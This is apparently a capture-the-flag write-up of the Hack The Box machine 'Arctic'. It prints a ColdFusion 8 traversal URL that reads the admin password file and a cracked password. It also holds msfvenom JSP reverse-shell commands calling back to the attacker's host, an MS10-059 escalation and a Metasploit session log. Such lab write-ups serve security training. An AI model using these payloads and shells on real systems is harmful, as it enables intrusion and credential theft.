 ## Default Information
IP Address: 10.10.10.11\
OS: Windows

## Discovery

Before we start, let's first add the IP address and the host to our ```/etc/hosts``` file.

```
10.10.10.11    arctic.htb
```
### Masscan
Firstly, we will use masscan to identify the open ports

```
┌──(kali㉿kali)-[~]
└─$ sudo masscan -p1-65535,U:1-65535 10.10.10.11 --rate=1000 -e tun0
[sudo] password for kali: 
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2022-01-09 00:35:16 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 49154/tcp on 10.10.10.11                                  
Discovered open port 135/tcp on 10.10.10.11 
```

### Nmap
We will then use the open ports obtained from masscan to run a scan using nmap to enumerate the services operating behind each port

| Port Number | Service | Version | State |
|-----|------------------|----------------------|----------------------|
| 135	| msrpc | Microsoft Windows RPC | Open |
| 8500	| fmtp? | NIL | Open |
| 49154	| msrpc | Microsoft Windows RPC | Open |

### Web-content discovery

Navigating to http://arctic.htb:8500, we realize that we are able to view a directory listing of the endpoints on the site.

![Directory listing](https://github.com/joelczk/writeups/blob/main/HTB/Images/Arctic/dir_listing.png)

Navigating through the directory listing, we are able to find another endpoint http://http://arctic.htb:8500/CFIDE/administrator/, which is the adminstrator interface for ColdFusion 8.

## Exploit
### Directory Traversal in Cold Fusion 8

Looking up the vulnerabilities of Cold Fusion 8, we discover that this version of Cold Fusion is vulnerable to [CVE-2010-2861](https://www.exploit-db.com/exploits/14641).

Using this vulnerability, we can then visit ```http://arctic.htb:8500/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en```, and we will then be able to obtain the password hash.
![Directory Traversal](https://github.com/joelczk/writeups/blob/main/HTB/Images/Arctic/directory_traversal.png)

Looking up the hash using the hash-identifier tool, we are able to recognize that this is posisbly a SHA-1 hash.

```
┌──(kali㉿kali)-[~]
└─$ hash-identifier
--------------------------------------------------
 HASH: 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03

Possible Hashs:
[+] SHA-1
[+] MySQL5 - SHA-1(SHA-1($pass))
```

Looking up the hash online, we are able to decrypt the hash into its password, which is ```happyday```

Using the password, we are then able to authenticate into http://arctic.htb:8500/CFIDE/administrator/

### Obtaining reverse shell

Firstly, we would need to first get the directory for our ```CFIDE```. To do so, we would need to navigate to Mappings under Server Settings.

![Mappings](https://github.com/joelczk/writeups/blob/main/HTB/Images/Arctic/mappings.png)

Next, what we have to do is to create a scheduled task. To do that, we will go to Debugging & Loggin > Scheduled Tasks > Schedule New Task

Afterwards, we will have to generate the jsp payload using msfvenom and start a python web server on the directory.

```
┌──(kali㉿kali)-[~/Desktop/arctic]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.8 LPORT=3000 -f raw > shell.jsp   
Payload size: 1496 bytes

┌──(kali㉿kali)-[~/Desktop/arctic]
└─$ python3 -m http.server 2000                 
Serving HTTP on 0.0.0.0 port 2000 (http://0.0.0.0:2000/) ...
```

Next, we will have to schedule the new task (NOTE: Remember to click ```save output to file``` so that we can access it at the /CFIDE endpoint later). 
- Task Name: Any name
- URL : Python web server hosting the jsp reverse shell
- username : username of the adminstrator interface (```admin``` in this case)
- password: Password of the adminstrator interface(```happyday``` in this case)
- File : CFIDE mapping that we have obtained earlier
![Scheduling new task](https://github.com/joelczk/writeups/blob/main/HTB/Images/Arctic/new_task.png)

We will then proceed to click on the leftmost button to start the scheduled task. This will then do a GET request to our python webserver to download the shell.jsp file and download it to our C:\ColdFusion8\wwwroot\CFIDE directory which is accessible at http://arctic.htb:8500/CFIDE/

![Obtaining new task](https://github.com/joelczk/writeups/blob/main/HTB/Images/Arctic/new_task.png)

Lastly we will do a curl request to http://arctic.htb:8500/CFIDE/shell.jsp to spawn the reverse shell.

```
┌──(kali㉿kali)-[~]
└─$ curl http://arctic.htb:8500/CFIDE/shell.jsp
```

### Obtaining user flag
```
C:\Users\tolis\Desktop>type user.txt
type user.txt
<Redacted User Flag>
```

### Privilege Escalation to system adminstrator

Running systeminfo,  we are able to know the OS name and the OS version. Apart from that, we realized that there are no hotfix that are applied yet which means that the server might possibly be vulnerable to many kernel exploits.

```
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
Hotfix(s):                 N/A
```

From our research, we realize that the machine is vulnerable to MS10-059.  Downloading the executable from [here](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059), we can then execute the executable to spawn a reverse shell.

```
c:\Users\tolis\Desktop>.\MS10-059.exe 10.10.16.8 3000
```

This will then spawn a reverse shell in our listener.

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 3000    
listening on [any] 3000 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.10.11] 50363
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\Users\tolis\Desktop>whoami
whoami
nt authority\system

c:\Users\tolis\Desktop>
```

### Obtaining root flag
```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
<Redacted root flag>
C:\Users\Administrator\Desktop>
```

## Post-Exploitation
### Generating reverse shell using CVE-2009-2265
Some more googling bring me to CVE-2009-2265, which is an unauthenticated RCE on Cold Fusion 8. 

Using the script from [here](https://www.exploit-db.com/exploits/50057), we can generate a reverse shell by modifying the lport, lhost, rport and rhost variables in the script.

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4000
listening on [any] 4000 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.10.11] 52054
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>
```

For this vulnerability, we are making use of the ability to upload a JSP script to http://arctic.htb:8500/userfiles/file endpoint. As such, we can create a reverse shell in jsp and upload to the affected endpoint. 

Afterwhich, we just have to browse to the reverse shell payload in order to execute the reverse shell.

![Reverse shell payload](https://github.com/joelczk/writeups/blob/main/HTB/Images/Arctic/reverse_shell.png)


## Post-Exploiation
### Reverse shell with Metasploit
Firstly, we can create our reverse shell using Metasploit using the same vulnerability that we have listed in the writeup above. In the case where the upload fails, try to set the HTTPCLIENTTIMEOUT to a greater value as this server is quite slow and it generally takes some time for the server to respond. 

```
msf6 > use exploit/windows/http/coldfusion_fckeditor
[*] No payload configured, defaulting to generic/shell_reverse_tcp
msf6 exploit(windows/http/coldfusion_fckeditor) > set RHOSTS 10.10.10.11
RHOSTS => 10.10.10.11
msf6 exploit(windows/http/coldfusion_fckeditor) > set RPORT 8500
RPORT => 8500
msf6 exploit(windows/http/coldfusion_fckeditor) > set PAYLOAD java/jsp_shell_reverse_tcp
PAYLOAD => java/jsp_shell_reverse_tcp
msf6 exploit(windows/http/coldfusion_fckeditor) > set LHOST 10.10.16.8
LHOST => 10.10.16.8
msf6 exploit(windows/http/coldfusion_fckeditor) > set LPORT 4000
LPORT => 4000
msf6 exploit(windows/http/coldfusion_fckeditor) > set HTTPCLIENTTIMEOUT 300
HTTPCLIENTTIMEOUT => 300.0
msf6 exploit(windows/http/coldfusion_fckeditor) > exploit
[*] Started reverse TCP handler on 10.10.16.8:4000 
[*] Sending our POST request...
[*] Upload succeeded! Executing payload...
[*] Command shell session 1 opened (10.10.16.8:4000 -> 10.10.10.11:50400) at 2022-01-09 06:16:30 -0500
```
